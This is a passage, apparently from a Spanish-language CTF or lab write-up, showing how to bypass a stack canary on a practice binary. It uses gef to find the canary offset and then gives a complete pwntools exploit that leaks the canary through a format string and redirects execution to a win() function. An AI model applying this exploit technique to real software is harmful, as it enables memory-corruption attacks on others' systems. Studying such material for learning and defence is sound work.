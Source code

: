 ```
   0x00000000004011c5 <+115>:	sub    rax,QWORD PTR fs:0x28

   Que es donde se hace la resta de ambos canaries
```

Ahora si ejecutamos el programa y mostramos el contenido del registro ```rax``` de esta forma ```x/gx $rax``` podemos ver esto:

```
gef➤  x/gc $rax
0x4eb24e58c0443400:	Cannot access memory at address 0x4eb24e58c0443400
```
Vemos como el valor del canary que se genero por defecto es ```0x4eb24e58c0443400```

Ahora ahi mismo en gef generare 100 caracteres de esta forma ```patter create 100``` que nos servira para calcular el offset y se los pasare al binario como nuestro primer input. Y mostramos otra vez el valor de rax, vemos esto:

```
gef➤  x/gc $rax
0x616161616161616a:	Cannot access memory at address 0x616161616161616a
```

Ahora nuestro canary vale ```0x616161616161616a``` se ha sobreescrito, pero esto es lo que queremos ya que ahora con ```patter offset 0x616161616161616a``` podemos calcular su offset y nos muestra esto:

```
gef➤  patter offset 0x616161616161616a
[+] Searching for '0x616161616161616a'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search) 
```
Y ahi lo tenemos, el offset del canary es 72, ahora si continuo la ejecucion del programa con los canaries diferentes podemos ver algo como esto:

```
gef➤  c
Continuing.
*** stack smashing detected ***: terminated
```
El programa se detiene ya que los canaries con diferentes.

## Ejecutando nuestro exploit

El exploit queda de esta manera

```python
from pwn import *

p = process("./vuln-64")

p.clean()
p.sendline('%15$p') #posicion del canary

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 72 # offset el canary
payload += p64(canary)
payload += b'A' * 8 # padding para llegar al ret
payload += p64(0x004011ec) #ret que en este caso es la direccion de la funcion win()

p.sendline(payload)
p.interactive()
```
